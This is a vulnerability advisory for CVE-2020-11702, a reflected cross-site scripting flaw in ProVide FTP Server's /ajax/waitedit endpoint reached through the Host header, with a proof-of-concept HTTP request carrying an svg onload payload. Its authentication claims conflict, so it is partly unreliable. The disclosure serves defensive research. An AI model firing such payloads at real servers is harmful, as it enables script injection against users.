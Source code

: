 ```yaml
---
layout: default
grand_parent: ProVide FTP Server for Windows
nav_order: 1
parent: CVE-2020-11702 - Multiple XSS in Web User Interface
title: Reflected XSS in /ajax/waitedit
---
```


# Waitedit - Reflected Cross-Site-Scripting via Host Header manipulation

## Summary

The application does not consistently validate client side input, and as a result of this it was identified that the web application was vulnerable to Reflected Cross-Site Scripting.

In the context of this vulnerability, a logged in attacker may execute active content in the context of other logged in users, injecting JavaScript or other active contect in the display name, and sharing a public accessible link.

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as problematic. Affected by this vulnerability is an unknown part of the file /ajax/waitedit. The manipulation of the **Host header** with the input value `"/a><svg/onload=alert(1)><a href="` leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect integrity. An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11702. The attack can be launched remotely. The exploitation doesn't need any form of authentication. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

**Sample affected URL:**

* https://provide.ftp.local:8443/dkb4QRBT4hG4EGMu/ajax/waitedit

**Sample request:**

```
POST /n8nTTXWuZgi9gDyy/ajax/waitedit HTTP/1.1
Host: "/a><svg/onload=alert(1)><a href="
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 115
Origin: https://provide.ftp.local
Connection: close
Referer: https://provide.ftp.local/
Cookie: ProVideSessionID=u1aSUSPhZUEgmuu

url=https%3A%2F%2Fprovide.ftp.local%2Fn8nTTXWuZgi9gDyy%2F4Z93Q76H%2Ftestfiletxt
```

## Remediation

No official fix is available for this issue.

## References

* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
* [https://www.google.com/intl/en/about/appsecurity/learning/xss/](https://www.google.com/intl/en/about/appsecurity/learning/xss/) 
